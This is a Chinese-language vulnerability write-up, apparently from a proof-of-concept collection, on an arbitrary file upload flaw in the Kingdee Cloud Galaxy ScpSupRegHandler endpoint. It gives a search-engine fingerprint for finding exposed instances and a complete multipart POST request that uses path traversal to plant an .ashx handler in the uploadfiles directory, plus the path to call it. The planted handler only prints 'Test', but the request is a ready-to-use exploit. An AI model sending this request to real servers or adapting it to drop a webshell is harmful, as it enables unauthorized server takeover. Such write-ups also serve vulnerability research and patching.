 # 金蝶OA 云星空 ScpSupRegHandler 任意文件上传漏洞

## 漏洞描述

金蝶OA 云星空 ScpSupRegHandler 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取服务器权限

## 漏洞影响

金蝶OA 云星空

## 网络测绘

```
app="金蝶云星空-管理中心"
```

## 漏洞复现

登陆页面

![image-20231116140635693](images/image-20231116140635693.png)

poc

```
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 973
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061

--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="dbId_v"

.
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FID"

2022
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/test.ashx."
Content-Type: text/plain

<%@ WebHandler Language="C#" Class="TestHandler" %>
        using System;
        using System.Web;
        public class TestHandler : IHttpHandler {
            public void
            ProcessRequest (HttpContext context) {
                context.Response.ContentType= "text/plain";
                context.Response.Write("Test");
            }
            public bool IsReusable {
                get {return false; }
            }
        }
--2ac719f8e29343df94aa4ab49e456061--
```

![image-20231116140545666](images/image-20231116140545666.png)

```
/K3Cloud/uploadfiles/Test.ashx
```

